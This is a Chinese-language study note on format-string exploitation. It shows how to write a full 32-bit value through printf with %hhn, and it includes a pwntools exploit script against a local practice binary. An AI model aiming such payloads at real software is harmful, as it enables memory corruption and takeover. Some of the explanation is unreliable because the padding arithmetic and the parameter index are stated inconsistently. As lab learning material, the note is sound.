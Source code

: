 #### 覆盖大数字

主要就是利用`%nx`和`%hhn`。

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

说白了就是hh写入的是一个字节，h写入2个字节。

让b是0x12345678的话，覆盖后的内存是这样：

```
78
56
34
12
地址上低下高
```

IDA查看b的地址为`0x0804A028`。所以分别要写到`0804A028,0804A029,0804A02a,0804A02b`中。

写EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
b_addr = 0x0804A028
payload = flat([b_addr,b_addr+1,b_addr+2,b_addr+3,'%104x','%6$hhn','%222x','%7$hhn','%222x','%8$hhn','%222x','%9$hhn'])
p.sendline(payload)
print(p.recv())

```

说一下什么意思吧。首先前面把要写的4个地址的值给填上去，之后的从`%6$hhn`到`%9$hhn`用来依次向这4个地址中覆盖东西。

首先是`%104x`，是取某个的十六进制然后填充长度为104，这样的话算上前面4个地址，是4*8+104=120的长度，是0x78，这样再`%7$hhn`的话，就是向`b_addr`中写入一个字节，值是0x78。

接下来得写0x156了，然后取一个字节，是0x56，这样就写进去了。

计算如下：

![image-20220117172932903](格式化字符串学习.assets/image-20220117172932903.png)
